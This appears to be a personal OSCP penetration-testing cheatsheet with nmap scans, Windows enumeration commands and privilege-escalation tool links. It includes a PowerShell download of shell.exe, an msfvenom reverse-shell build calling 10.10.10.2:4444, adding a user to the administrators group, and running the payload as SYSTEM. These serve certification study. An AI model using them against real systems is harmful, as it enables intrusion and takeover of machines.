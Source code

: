 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
####full TCP scan
```bash
sudo nmap -sC -sV -O --open -p- -oA full-tcp [targets]
```

####full UDP scan
```bash
sudo nmap -sU -p- -oA full-udp [targets]
```

####scripts w/ ports
```bash
sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]
```

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation

### File Transfers

#### From Cmd.exe

```bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2:8080/shell.exe','C:\Users\Public\shell.exe')
```


## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
- **The Basics**

**Your User**
```bash
whoami
whoami /priv
net user [user]
```
**System Config**
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
ipconfig /all
netstat -ano
tasklist /SVC
```


- **Payloads**

### msfvenom executable payload

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe
```

RDP- add user to administrators group first

```bash
net localgroup administrators [user] /add
```

PsExec from Windows Sysinternals

```bash
.\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe
```

- **PrivEsc Enumeration Tools**

[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
```bash
powershell -exec bypass
. .\PowerUp.ps1
Invoke-Allchecks
```

[SharpUp](https://github.com/GhostPack/SharpUp):
```bash
.\SharpUp.exe
```

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
```bash
.\SeatBelt.exe all
.\SeatBelt.exe Nonstandard
```

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
```bash
.\winPEASany.exe -h
```
Single check
```bash
.\winPEASany.exe userinfo
```
All checks
```bash
.\winPEASany.exe
```


